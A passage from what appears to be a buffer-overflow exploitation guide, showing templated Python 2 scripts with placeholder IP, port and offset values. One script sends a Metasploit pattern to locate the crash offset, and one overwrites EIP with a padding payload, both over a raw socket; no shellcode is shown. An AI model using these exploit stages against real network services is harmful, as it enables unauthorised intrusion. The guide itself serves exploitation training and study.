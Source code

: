 ```python=                
                sys.exit()
```

-----

#### Offset

[offset.py]()

```python=
#!/usr/bin/python2
import sys, socket

#/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <value>
offset = "{offset}"

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('{IP}',{port}))
        s.recv(1024)
        s.send(offset)
        s.close()

except:
        print "Error connecting to server"
        sys.exit()
```

-----

#### Write EIP

[writing_EIP.py]()

```python=
#!/usr/bin/python2
import sys, socket

payload = "A" * {offset} + "B" * 4

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('{IP}',{PORT}))
        s.recv(1024)
        s.send(payload)
        s.close()

except:
        print "Error connecting to server"
        sys.exit()
```

-----
